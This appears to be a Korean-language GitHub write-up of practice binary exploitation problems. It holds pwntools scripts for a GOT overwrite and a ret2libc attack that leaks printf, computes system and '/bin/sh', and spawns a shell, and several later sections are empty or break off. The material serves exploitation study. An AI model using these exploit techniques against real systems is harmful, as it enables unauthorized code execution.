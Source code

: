 # rop


## problem 1

GOT Overwrite를 하는 문제이다. 포인터를 통해 puts의 GOT를 gift의 주소로 변경하면 puts함수를 실행할 때 gift로 점프해 실행하도록 만들 수 있다. gdb를 통해 디버깅하여 puts의 GOT와 gift함수의 주소를 알 수 있다. 

```python
from pwn import *

p = process('./got_overwrite')

puts_got = 0x404018
gift = 0x4011d6

p.recvuntil(b"addr: ")
p.sendline(str(puts_got))
p.recvuntil(b"value: ")
p.sendline(str(gift))

p.interactive()
```


## problem 3

ROP 문제로, 주어진 printf 함수의 실제 주소를 활용하여 system과 '/bin/sh'의 주소를 찾을 수 있다.

```python

from pwn import *

p = process('./onegadget')
e = ELF('./onegadget')
libc = e.libc

p.recvuntil(b'printf Function is at: ')
printf_addr = int(p.recv(14), 16)

libc_base = printf_addr - libc.symbols['printf']
system_addr = libc_base + libc.symbols['system']
binsh = libc_base + list(libc.search(b'/bin/sh'))[0]

log.info("libc base : %s"%hex(libc_base))
log.info("system addr : %s"%hex(system_addr))

payload = b'A'*0x20
payload += b'B'*0x8
payload += p64(system_addr)
payload += b'C'*0x8
payload += p64(binsh)

p.sendline(payload)

p.interactive()


```



## problem 3-2

마찬가지로 ROP 문제이다. read를 활용하여 


## problem 4




## problem 5




## problem 6






